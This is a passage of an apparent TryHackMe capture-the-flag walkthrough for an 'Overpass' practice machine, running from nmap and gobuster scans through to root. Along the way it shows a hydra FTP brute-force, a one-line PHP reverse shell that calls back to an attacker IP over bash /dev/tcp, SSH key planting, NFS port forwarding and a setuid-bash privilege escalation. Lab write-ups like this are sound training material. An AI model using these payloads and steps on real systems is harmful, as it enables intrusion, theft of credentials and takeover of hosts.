|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
| http-trace: TRACE is enabled
| Headers:
| Date: Sat, 24 Jul 2021 00:49:23 GMT
| Server: Apache/2.4.37 (centos)
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   cpe:/a:apache:http_server:2.4.37: 
|     	MSF:ILITIES/UBUNTU-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-11984/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/	*EXPLOIT*
|     	CVE-2021-26691	7.5	https://vulners.com/cve/CVE-2021-26691
|     	CVE-2020-11984	7.5	https://vulners.com/cve/CVE-2020-11984
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	*EXPLOIT*
|     	EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	7.2	https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	*EXPLOIT*
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	1337DAY-ID-32502	7.2	https://vulners.com/zdt/1337DAY-ID-32502	*EXPLOIT*
|     	CVE-2020-35452	6.8	https://vulners.com/cve/CVE-2020-35452
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0215/	6.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0215/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	*EXPLOIT*
|     	CVE-2019-10097	6.0	https://vulners.com/cve/CVE-2019-10097
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	CVE-2019-0215	6.0	https://vulners.com/cve/CVE-2019-0215
|     	EDB-ID:47689	5.8	https://vulners.com/exploitdb/EDB-ID:47689	*EXPLOIT*
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	1337DAY-ID-33577	5.8	https://vulners.com/zdt/1337DAY-ID-33577	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/	*EXPLOIT*
|     	CVE-2021-26690	5.0	https://vulners.com/cve/CVE-2021-26690
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-17567	5.0	https://vulners.com/cve/CVE-2019-17567
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-17189	5.0	https://vulners.com/cve/CVE-2018-17189
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	4.9	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/	*EXPLOIT*
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/	*EXPLOIT*
|     	EDB-ID:47688	4.3	https://vulners.com/exploitdb/EDB-ID:47688	*EXPLOIT*
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	1337DAY-ID-33575	4.3	https://vulners.com/zdt/1337DAY-ID-33575	*EXPLOIT*
|     	CVE-2020-13938	2.1	https://vulners.com/cve/CVE-2020-13938
|     	PACKETSTORM:152441	0.0	https://vulners.com/packetstorm/PACKETSTORM:152441	*EXPLOIT*
|     	EDB-ID:46676	0.0	https://vulners.com/exploitdb/EDB-ID:46676	*EXPLOIT*
|     	1337DAY-ID-663	0.0	https://vulners.com/zdt/1337DAY-ID-663	*EXPLOIT*
|     	1337DAY-ID-601	0.0	https://vulners.com/zdt/1337DAY-ID-601	*EXPLOIT*
|     	1337DAY-ID-4533	0.0	https://vulners.com/zdt/1337DAY-ID-4533	*EXPLOIT*
|     	1337DAY-ID-3109	0.0	https://vulners.com/zdt/1337DAY-ID-3109	*EXPLOIT*
|_    	1337DAY-ID-2237	0.0	https://vulners.com/zdt/1337DAY-ID-2237	*EXPLOIT*
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.4 (92%), Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/24%OT=21%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=60FB63C8%P=i686-pc-windows-windows)
SEQ(SP=104%GCD=1%ISR=104%TI=Z%II=I%TS=A)
OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M508NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 49.380 days (since Fri Jun 04 23:43:36 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -8m18s
| dns-blacklist: 
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
|_firewalk: ERROR: Script execution failed (use -d to debug)
|_ipidseq: ERROR: Script execution failed (use -d to debug)
|_path-mtu: ERROR: Script execution failed (use -d to debug)
|_qscan: ERROR: Script execution failed (use -d to debug)
| traceroute-geolocation: 
|   HOP  RTT     ADDRESS        GEOLOCATION
|   1    97.00   10.4.0.1       - ,- 
|   2    ...
|   3    ...
|_  4    356.00  10.10.186.192  - ,- 

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   97.00 ms  10.4.0.1
2   ... 3
4   356.00 ms 10.10.186.192

Post-scan script results:
| reverse-index: 
|   21/tcp: 10.10.186.192, 10.10.186.192
|   22/tcp: 10.10.186.192, 10.10.186.192
|_  80/tcp: 10.10.186.192, 10.10.186.192
Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 24 08:50:16 2021 -- 2 IP addresses (2 hosts up) scanned in 1228.06 seconds
```

Gobuster result

```text
http://10.10.186.192/.htpasswd            (Status: 403) [Size: 218]
http://10.10.186.192/.htaccess            (Status: 403) [Size: 218]
http://10.10.186.192/.hta                 (Status: 403) [Size: 213]
http://10.10.186.192/backups              (Status: 301) [Size: 237] [--> http://10.10.186.192/backups/]
http://10.10.186.192/cgi-bin/             (Status: 403) [Size: 217]
http://10.10.186.192/index.html           (Status: 200) [Size: 1770]


http://10.10.186.192/cgi-bin/.hta                 (Status: 403) [Size: 221]
http://10.10.186.192/cgi-bin/.htaccess.sh         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.htpasswd            (Status: 403) [Size: 226]
http://10.10.186.192/cgi-bin/.hta.txt             (Status: 403) [Size: 225]
http://10.10.186.192/cgi-bin/.htaccess.php        (Status: 403) [Size: 230]
http://10.10.186.192/cgi-bin/.htpasswd.sh         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.hta.sh              (Status: 403) [Size: 224]
http://10.10.186.192/cgi-bin/.htaccess.html       (Status: 403) [Size: 231]
http://10.10.186.192/cgi-bin/.htpasswd.php        (Status: 403) [Size: 230]
http://10.10.186.192/cgi-bin/.hta.php             (Status: 403) [Size: 225]
http://10.10.186.192/cgi-bin/.htaccess            (Status: 403) [Size: 226]
http://10.10.186.192/cgi-bin/.htpasswd.html       (Status: 403) [Size: 231]
http://10.10.186.192/cgi-bin/.hta.html            (Status: 403) [Size: 226]
http://10.10.186.192/cgi-bin/.htaccess.pl         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.htpasswd.pl         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.hta.pl              (Status: 403) [Size: 224]
http://10.10.186.192/cgi-bin/.htaccess.py         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.htpasswd.py         (Status: 403) [Size: 229]
http://10.10.186.192/cgi-bin/.hta.py              (Status: 403) [Size: 224]
http://10.10.186.192/cgi-bin/.htaccess.txt        (Status: 403) [Size: 230]
http://10.10.186.192/cgi-bin/.htpasswd.txt        (Status: 403) [Size: 230]
```

Main page:


Main page - source:



With gobuster result, there is a backups folder accessible.



Download and extract, you will get 2 files --- ` priv.key ` and ` CustomerDetails.xlsx.gpg `

Let's decrypt it !

```
gpg --import priv.key
gpg CustomerDetails.xlsx.gpg
```

And check out the content of excel file.


As our nmap scan told us that the ftp doesn´t allow an anoynmous login, we can use the information to try some login attempts at the ftp.

Let's create a user and password list from the excel we got and pass it to hydra for brute force login

```bash
hydra -L user.lst -P passwords.lst ftp://10.10.186.192
[21][ftp] host: 10.10.186.192 login: [CONFIDENTIAL] password: [CONFIDENTIAL]
```

Once we got the credentials right, let's jump in ftp.

```dos
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.

C:\Users\crazy\Desktop>ftp 10.10.186.192
Connected to 10.10.186.192.
220 (vsFTPd 3.0.3)
200 Always in UTF8 mode.
User (10.10.186.192:(none)): paradox
331 Please specify the password.
Password:
230 Login successful.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    3 48       48             94 Nov 17  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.
ftp: 460 bytes received in 0.01Seconds 65.71Kbytes/sec.
ftp>
```

It's semm like, it is the /var/www/html directory.

Let's dump our php reverse shell into it and get our reverse shell !

```dos
ftp> put reverse.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp: 72 bytes sent in 0.35Seconds 0.20Kbytes/sec.
ftp>
```

PHP reverse shell code as below

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_ATTACKER_IP/YOUR_ATTACKER_PORT 0>&1'"); ?>
```

Once the upload done, fire up netcat listener and activate the reverse shell.

```dos
C:\Users\crazy\Desktop>curl http://10.10.186.192/reverse.php
```

And we get reverse shell.

```dos
C:\Users\crazy\Desktop>nc8889
listening on [any] 8889 ...
connect to [x] from (UNKNOWN) [10.10.186.192] 35916
bash: cannot set terminal process group (873): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ pwd
pwd
/var/www/html
bash-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.4$ whoami
whoami
apache
bash-4.4$
```

Let's find some flag then.

```bash
bash-4.4$ find / 2>/dev/null | grep flag
find / 2>/dev/null | grep flag
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/vif-0/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/usr/bin/pflags
/usr/sbin/grub2-set-bootflag
/usr/share/man/man1/grub2-set-bootflag.1.gz
/usr/share/httpd/web.flag


cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
sssd:x:997:994:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
chrony:x:996:993::/var/lib/chrony:/sbin/nologin
rngd:x:995:992:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
james:x:1000:1000:James:/home/james:/bin/bash
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:994:991:Nginx web server:/var/lib/nginx:/sbin/nologin
paradox:x:1001:1001::/home/paradox:/bin/bash
```

And we get the Web Flag !

Since we have one of the credentials, let check out paradox then, you will notice we can exploit via paradox ssh.

Generate our own ssh key and copy it to ` /home/paradox/.ssh/authorized_keys 

Now we can ssh in with paradox user with our own ssh key.

In addition, we can copy linpeas to check what is the interesting finding.

Once you have linpeas, you will get nfs info.

We can check with rpcinfo as well, notice the port 111 and 2049 nfs, however we could not mount from attacker machines.

```bash
[paradox@ip-10-10-186-192 ~]$ rpcinfo -p
rpcinfo -p
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100024    1   udp  57327  status
    100024    1   tcp  52517  status
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  57426  nlockmgr
    100021    3   udp  57426  nlockmgr
    100021    4   udp  57426  nlockmgr
    100021    1   tcp  46813  nlockmgr
    100021    3   tcp  46813  nlockmgr
    100021    4   tcp  46813  nlockmgr
```

Hence, let's try port forwarding.

```bash
ssh paradox@10.10.186.192-i paradox -L 2049:localhost:2049
```

Then mount the nfs accordingly.

```bash
mount -v localhost:/ nfs
```

Then you get the user flag !

```bash
cd nfs

ls -la
total 16
drwx------ 3 austin austin  112 Nov 18  2020 .
drwxrwxrwx 1 root   root   4096 Aug 24 16:02 ..
lrwxrwxrwx 1 root   root      9 Nov  9  2020 .bash_history -> /dev/null
-rw-r--r-- 1 austin austin   18 Nov  9  2019 .bash_logout
-rw-r--r-- 1 austin austin  141 Nov  9  2019 .bash_profile
-rw-r--r-- 1 austin austin  312 Nov  9  2019 .bashrc
drwx------ 2 austin austin   61 Nov  8  2020 .ssh
-rw------- 1 austin austin   38 Nov 18  2020 user.flag

ls -la .ssh
total 12
drwx------ 2 austin austin   61 Nov  8  2020 .
drwx------ 3 austin austin  112 Nov 18  2020 ..
-rw------- 1 austin austin  581 Nov  8  2020 authorized_keys
-rw------- 1 austin austin 2610 Nov  8  2020 id_rsa
-rw-r--r-- 1 austin austin  581 Nov  8  2020 id_rsa.pub
```

Seem like we can download the ssh key, presuming the ssh key belong to james as we have check previously, there is 2 users --- paradox & james.

Let's ssh into james account, since we know there nfs which is exploitable, let's copy the bash into james home as well

```bash
ssh -i james-id_rsa james@10.10.186.192
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@ip-10-10-186-192 ~]$ ls -l
total 4
-rw-------. 1 james james 38 Nov 17  2020 user.flag
[james@ip-10-10-186-192 ~]$ which bash
/usr/bin/bash
[james@ip-10-10-186-192 ~]$ cp /usr/bin/bash .
```

With the port forwarding and nfs mount in active, we can use our attacker machine with root privileged !

Change the bash we copy from victim machines into james home as following:

```bash
chwon root:root bash
chmod 777 bash
chmod +s bash
```

From james ssh session, checking the bash binary:

```bash
[james@ip-10-10-186-192 ~]$ ls -l
total 1196
-rwsrwsrwx  1 root  root  1219248 Aug 24 09:26 bash
-rw-------. 1 james james      38 Nov 17  2020 user.flag
```

Now we have exploit and get the bash binary with setuid and root privileges !

Spawn root shell then.

```bash
[james@ip-10-10-186-192 ~]$ ./bash -p
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
bash-4.4#
bash-4.4# find / -name "*.flag" 2>/dev/null
/root/root.flag
/usr/share/httpd/web.flag
/home/james/user.flag
```

And you have all the flag !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


